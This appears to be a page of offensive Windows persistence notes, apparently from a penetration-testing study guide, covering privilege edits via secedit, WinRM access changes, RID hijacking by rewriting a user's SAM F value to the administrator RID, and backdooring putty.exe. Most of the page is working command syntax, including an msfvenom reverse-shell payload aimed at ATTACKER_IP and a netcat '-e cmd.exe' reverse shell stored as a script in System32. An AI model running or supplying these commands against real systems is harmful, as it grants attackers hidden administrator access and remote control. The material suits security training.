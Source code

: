 ## Export Current Config For Editing<br>
secedit /export /cfg config.inf<br>
notepad config.inf<br>
## Add Our Username To SeBackupPrivilege And SeRestorePrivilege Lines
### Note: using username is fine

## Import Our New Config
secedit /import /cfg config.inf /db config.sdb<br>
secedit /configure /db config.sdb /cfg config.inf<br>

## Modify WinRM Service So We Can Login Via WinRm
### Add our user and give it full control via UI.
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI<br>

# RID Hijacking
We basically update registry values in a way that system thinks we are administrator<br>

## Find RID For Our User
Note: RID is last number set after last - of the SID<br>
wmic useraccount get name,sid<br>
## Edit Our Registry Value
Note: PsExec64 needed<br>
Open Registry Editor<br>
PsExec64.exe -i -s regedit<br>
Navigate To Correct Folder<br>
<b>Note: RID here is hex-presentation of our previously found RID<br></b>
HKLM\SAM\SAM\Domains\Account\Users\RID<br>
Edit F Value<br>
Find RID value from registry and change it to F4 01 (500 in decimal)<br>


# Backdoors Via Files
## Replace Commonly Used Program (Eg. Putty.Exe) With Tampered Version:
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe<br>
Edit Shortcut To Execute Mal Program<br>
Create A Small Script To Execute Wanted Program With Our Backdoor<br>
Store in Windows/System32/backdoor.ps1 for example<br>

Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe IP 4445"<br>
